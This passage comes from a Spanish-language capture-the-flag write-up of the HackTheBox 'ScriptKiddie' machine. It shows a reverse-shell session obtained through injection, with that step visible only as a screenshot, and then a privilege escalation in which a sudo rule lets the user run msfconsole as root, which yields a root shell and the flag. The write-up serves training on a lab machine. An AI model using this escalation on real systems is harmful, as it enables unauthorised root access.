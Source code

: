 Y tendríamos:

![314bash_scanlosers_injectionrevSH](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/scriptkiddie/314bash_scanlosers_injectionrevSH.png)

Opa, tenemos una sesión como `pwn`

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/scriptkiddie/314google_gifdanceNBA.gif" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 40%;"/>

¡Enumeremos pa vel!

...

## Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Si validamos que puede ejecutar `pwn` usando sudo (con permisos de `root`) en la máquina, nos encontramos:

```bash
pwn@scriptkiddie:~$ sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

El binario `msfconsole`, veamos:

```bash
pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole
```

Y tenemos:

```bash
msf6 > id
[*] exec: id

uid=0(root) gid=0(root) groups=0(root)
```

```bash
msf6 > /bin/bash
[*] exec: /bin/bash

root@scriptkiddie:/home/pwn# cd
root@scriptkiddie:~# ls
root.txt  snap
```

Perfecto, solo nos quedaría ver las flags:

![314flags](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/scriptkiddie/314flags.png)

...
